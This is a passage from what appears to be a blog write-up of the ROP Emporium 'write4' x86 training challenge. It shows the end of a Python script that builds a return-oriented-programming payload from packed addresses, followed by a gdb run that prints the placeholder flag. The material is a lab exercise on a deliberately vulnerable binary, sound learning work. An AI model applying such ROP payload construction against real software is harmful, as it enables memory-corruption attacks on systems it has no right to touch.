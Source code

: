  ``` python 
buf+= struct.pack('<L',0x80483d0) # <print_file@plt>
buf+= b'CCCC' # fake return address
buf+= struct.pack('<L',0x0804a018) # .data address / args 1
buf +=b'\n'
out= bytes(buf)
sys.stdout.buffer.write(out)
 
 ```
 
 I run the program and get the flag. 
 ```bash 
 (gdb) run < writebin    
The program being debugged has been started already.  
Start it from the beginning? (y or n) y  
Starting program: /home/spook2/school/notSchool/blog fodder/rop/write4/write432 < writebin  
[Thread debugging using libthread_db enabled]  
Using host libthread_db library "/usr/lib/libthread_db.so.1".  
write4 by ROP Emporium  
x86  
  
Go ahead and give me the input already!  
  
> Thank you!  
ROPE{a_placeholder_32byte_flag!}
 ```

This concludes the first batch of ROP exploit challenge write-ups for this blog. Completing these challenges was a fun way to brush up on my knowledge of assembly. I highly recommend [ROP Emporium](https://ropemporium.com/).


